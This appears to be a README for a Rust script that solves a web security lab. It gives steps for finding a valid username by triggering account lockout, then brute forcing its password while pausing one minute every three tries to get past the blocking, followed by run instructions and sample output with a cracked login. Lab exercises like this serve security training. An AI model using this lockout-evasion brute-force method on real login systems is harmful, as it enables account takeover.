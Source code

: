 # Hack Steps
1. Try all users multiple times until on account is locked
2. Brute force password of that valid username
3. Wait 1 minute every 3 password tries to bypass blocking

# Run Script
1. Change the URL of the lab
2. Change the PATH for your usernames list
3. Change the PATH for you passwords list
4. Start script
```
~$ cargo run
```

# Expected Output
```
[#] Enumerate usernames..
[*] Try number 1 of all users..
Elapsed: 3 minutes || Failed: 0 || Trying (6/101): adam                                              
[#] Brute forcing password..
✅ Valid user: adam
Elapsed: 26 minutes || Failed: 0 || Trying (74/102): joshua                                            
✅ Login successfully:  username: adam, password: joshua
✅ Finished in: 0 minutes
Results was saved to: results
Failed users count: 0
Failed users: [  ]
Failed passwords count: 0
Failed passwords: [  ]
```

